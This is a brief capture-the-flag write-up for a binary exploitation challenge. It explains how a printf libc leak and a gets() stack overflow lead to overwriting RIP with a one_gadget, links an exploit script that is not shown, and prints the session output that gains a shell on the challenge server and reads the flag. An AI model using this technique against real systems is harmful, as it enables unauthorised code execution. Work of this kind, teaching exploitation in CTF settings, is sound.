 * 64-bit elf with PIE protection
* the binary open and give us a leak of printf@libc
* we have a stack buffer overflow because of gets()
* calculate the libc base and evaluate the remote libc using https://libc.blukat.me/
![img ](./libc_enum.png)
* use the buf-overflow to evrwrite RIP with one_gadgets, also we full the stack with `\x00` to be sure the one_gadget work ;)
* exploit here <a href=x.py>x.py</a>
```
  $ python x.py
  [+] Opening connection to jh2i.com on port 50005: Done
  [+] leak printf: 00007f729336d800
  [+] 0x7f7293318000
  [*] Switching to interactive mode
  )?

  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x165\x93r\x7f
  $ ls -al
  total 44
  dr-xr-xr-x 1 pwn  pwn  4096 Mar 31 14:34 .
  drwxr-xr-x 1 root root 4096 Nov  8 00:37 ..
  -rw-r--r-- 1 pwn  pwn   220 Aug 31  2015 .bash_logout
  -rw-r--r-- 1 pwn  pwn  3771 Aug 31  2015 .bashrc
  -rw-r--r-- 1 pwn  pwn   655 Jul 12  2019 .profile
  -rw-r--r-- 1 root root  133 Nov  8 00:24 Makefile
  -rwxr-xr-x 1 root pwn  8888 Mar 31 14:34 challenge
  -rw-r--r-- 1 root root  330 Nov  8 00:24 challenge.c
  -rwxr-xr-x 1 root pwn    16 Mar 31 14:34 flag.txt
  $ cat flag.txt
  LLS{r0p_1s_fun}
```
